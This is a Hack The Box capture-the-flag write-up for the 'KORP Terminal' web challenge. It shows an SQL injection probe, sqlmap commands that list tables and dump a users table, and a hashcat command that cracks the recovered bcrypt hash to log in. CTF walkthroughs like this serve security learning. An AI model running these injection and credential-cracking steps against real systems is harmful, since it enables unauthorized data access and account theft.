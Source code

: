 ```yaml
---
clayout: ctf
title: KORP Terminal
date: 2024-12-15
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: KORP Terminal
      link: https://app.hackthebox.com/challenges/647
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/647
          thumbnail: /ctf/hack-the-box/challenges/web/korp-terminal/pwned.png
---
```


## Challenge description

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out
more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and
security protocols.

## Challenge Overview

This challenge presents a web application with a login interface. Users must input a username and password. The goal is
to identify valid credentials to log in and retrieve the flag.

![KORP Terminal - Overview](/ctf/hack-the-box/challenges/web/korp-terminal/overview.png)

## Enumeration

After testing common credentials like `admin:admin` or `guest:guest`, no successful login was achieved. A closer
inspection of the request using tools like **Burp Suite** revealed no immediate clues. This prompted an attempt to test
for vulnerabilities like **SQL Injection**.

### Testing for SQL Injection

Using the payload below in the `username` field revealed a SQL error, confirming the application is vulnerable to SQL
Injection:

```sql
admin'
```

The server response provided the following error message:

```json
{
    "error": {
        "message": [
            "1064",
            "1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin''' at line 1",
            "42000"
        ],
        "type": "ProgrammingError"
    }
}
```

The error message clearly indicates a syntax issue caused by the unescaped input, confirming that the backend query is
vulnerable.

## Exploitation

To exploit this vulnerability, we used **sqlmap**, a powerful automated SQL Injection tool. Since the error revealed the
backend is running **MariaDB**, we specified this database management system in our command.

#### Step 1: Listing Database Tables

The following command was used to retrieve the names of all tables:

```bash
sqlmap -u "http://<challenge-ip>:<challenge-port>" --data="username=admin&password=admin" -p username --ignore-code 401 --dbms=MariaDB --tables
```

::: info Command Breakdown

- **`-u`**: Target URL.
- **`--data`**: Data sent in the POST request.
- **`-p`**: Parameter to test (in this case, `username`).
- **`--ignore-code`**: Ignore HTTP status codes (e.g., 401 Unauthorized).
- **`--dbms`**: Specify the database management system (`MariaDB`).
- **`--tables`**: Retrieve all table names.

:::

Output:

![Sqlmap - Tables](/ctf/hack-the-box/challenges/web/korp-terminal/sqlmap-tables.png)

Sqlmap revealed a database named **`korp_terminal`** with a table named **`users`**.

### Step 2: Dumping the `users` Table

To extract the contents of the `users` table, the following command was used:

```bash
sqlmap -u "http://94.237.61.84:38028" --data="username=admin&password=admin" -p username --ignore-code 401 --dbms=MariaDB -D korp_terminal -T users --dump
```

::: info Command Breakdown:

- **`-D`**: Specify the database to target (`korp_terminal`).
- **`-T`**: Specify the table to dump (`users`).
- **`--dump`**: Dump all rows from the specified table.

:::

Output:

![Sqlmap - Dump](/ctf/hack-the-box/challenges/web/korp-terminal/sqlmap-users-dump.png)

The dump revealed the `username` and `password` fields. The password field was hashed using bcrypt.

## Cracking the Password Hash

### Identifying the Hash Type

By comparing the extracted hash with examples from
the [Hashcat Hash Examples](https://hashcat.net/wiki/doku.php?id=example_hashes) page, it was identified as **bcrypt** (Hashcat
mode `3200`).

### Cracking the Hash with `hashcat`

To crack the bcrypt hash, the following command was used:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

::: info Command Breakdown

- **`-m 3200`**: Specify the hash type (`bcrypt`).
- **`hash.txt`**: Input file containing the hash.
- **`/usr/share/wordlists/rockyou.txt`**: Wordlist for brute force.

:::

Output:

```
$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

The cracked password for the `admin` user was **`password123`**.

## Logging In

Using the credentials:

- **Username**: `admin`
- **Password**: `password123`

We successfully logged into the application and retrieved the flag:

```
HTB{f4k3_fl4g}
```

## References

- [SQLmap - Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
- [Hashcat Wiki - Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)